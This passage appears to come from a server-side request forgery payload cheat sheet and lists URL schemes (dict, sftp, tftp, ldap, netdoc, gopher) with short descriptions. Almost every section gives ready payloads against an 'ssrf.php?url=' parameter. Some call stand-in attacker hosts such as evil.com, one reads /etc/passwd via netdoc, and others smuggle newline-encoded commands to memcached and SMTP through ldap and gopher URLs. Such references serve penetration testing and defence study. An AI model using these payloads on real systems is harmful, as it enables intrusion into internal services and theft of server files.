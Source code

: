 
### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```


### Netdoc

Wrapper for Java when your payloads struggle with "`\n`" and "`\r`" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
```


### Gopher

The `gopher://` protocol is a lightweight, text-based protocol that predates the modern World Wide Web. It was designed for distributing, searching, and retrieving documents over the Internet.

```ps1
gopher://[host]:[port]/[type][selector]
```

This scheme is very useful as it as be used to send data to TCP protocol.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```
